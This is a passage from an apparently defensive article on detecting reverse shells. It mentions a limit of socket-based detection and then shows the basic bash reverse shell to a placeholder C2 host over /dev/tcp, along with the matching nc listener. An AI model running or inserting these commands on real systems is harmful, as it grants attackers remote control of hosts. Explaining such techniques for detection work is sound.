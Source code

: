 ![4](4.png)

It should be noted that this information may be interfered. Due to performance considerations, we don't want to extract all the socket information or traverse all the 'fd' of each process, which will become a potential limitation.



#### 3. The simplest reverse shell

The simplest reverse shell is `bash -i`, like this:

`bash -i >& /dev/tcp/c2_ip/c2_port 0>& 1`

The `-i` parameter indicates that an interactive shell is generated, and then TCP takes over the input and output of the shell to achieve a reverse shell. The control terminal lies in remote side only needs to use this in advance:

`nc -l port`

You can listen to the specified port and wait for the shell to visit the door obediently.
